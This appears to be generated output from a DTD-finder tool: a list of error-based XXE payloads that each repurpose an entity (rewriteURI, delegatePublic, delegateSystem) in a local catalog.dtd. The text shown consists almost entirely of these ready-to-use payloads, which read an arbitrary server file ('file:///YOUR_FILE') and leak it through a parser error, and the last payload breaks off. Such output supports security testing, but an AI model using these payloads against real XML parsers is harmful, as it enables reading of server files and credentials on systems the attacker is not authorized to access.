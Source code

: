**Injectable entity:** `rewriteURI`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % rewriteURI 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `delegatePublic`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % delegatePublic 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `delegateSystem`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % delegateSystem 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

```